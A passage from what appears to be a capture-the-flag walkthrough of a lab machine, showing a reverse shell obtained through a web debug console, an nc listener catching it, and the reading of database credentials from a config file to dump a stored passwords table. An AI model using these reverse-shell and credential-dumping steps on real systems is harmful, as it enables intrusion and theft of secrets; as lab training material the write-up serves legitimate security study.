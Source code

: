 ![image-20230124142043404](../img/image-20230124142043404.png)

### Shell

It looks like the `os` module is imported already:

![image-20230124142118360](../img/image-20230124142118360.png)

I’ll use Python #2 from [revshells.com](https://www.revshells.com/), pasting
it directly into the console:

![image-20230124142547688](../img/image-20230124142547688.png)

The page hangs, but I get a shell:

    
    
    oxdf@hacky$ nc -lvnp 443
    Listening on 0.0.0.0 443
    Connection received on 10.1.1.105 51078
    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

## Shell as corum

The shell will only last about 5 minutes based on the connection, so it’s
important to work quick (or just get another shell). With access as www-data,
I can read the DB connection string from `/app/config_prod.json`:

    
    
    (venv) www-data@agile:/app$ cat config_prod.json
    {"SQL_URI": "mysql+pymysql://superpassuser:dSA6l7q*yIVs$39Ml6ywvgK@localhost/superpass"}
    

I’ll use that to connect to the database and dump the passwords:

    
    
    (venv) www-data@agile:/app$ mysql -u superpassuser -p'dSA6l7q*yIVs$39Ml6ywvgK' superpass
    ...[snip]...
    mysql> select * from passwords;
    +-----+---------------------+---------------------+----------------+----------+----------------------+---------+
    | id  | created_date        | last_updated_data   | url            | username | password             | user_id |
    +-----+---------------------+---------------------+----------------+----------+----------------------+---------+
    |   3 | 2022-12-02 21:21:32 | 2022-12-02 21:21:32 | hackthebox.com | 0xdf     | 762b430d32eea2f12970 |       1 |
    |   4 | 2022-12-02 21:22:55 | 2022-12-02 21:22:55 | mgoblog.com    | 0xdf     | 5b133f7a6a1c180646cb |       1 |
    |   6 | 2022-12-02 21:24:44 | 2022-12-02 21:24:44 | mgoblog        | corum    | 47ed1e73c955de230a1d |       2 |
    |   7 | 2022-12-02 21:25:15 | 2022-12-02 21:25:15 | ticketmaster   | corum    | 9799588839ed0f98c211 |       2 |